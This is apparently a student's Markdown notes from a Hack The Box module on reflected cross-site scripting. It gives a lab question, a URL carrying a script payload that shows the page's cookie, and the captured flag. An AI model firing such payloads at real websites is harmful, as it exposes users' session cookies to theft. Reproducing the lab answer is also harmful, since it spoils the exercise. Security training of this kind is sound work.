

# Section 03: Reflected XSS

Module: 19. Cross-Site Scripting (XSS)

---

## Questions & Answers

### 1. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.

Context:
```
http://154.57.164.77:31643/index.php?task=%3Cscript%3Ealert(document.cookie)%3C/script%3E
```


**Answer:** `HTB{r3fl3c73d_b4ck_2_m3}`

---

[Back to Module Index](./README.md)
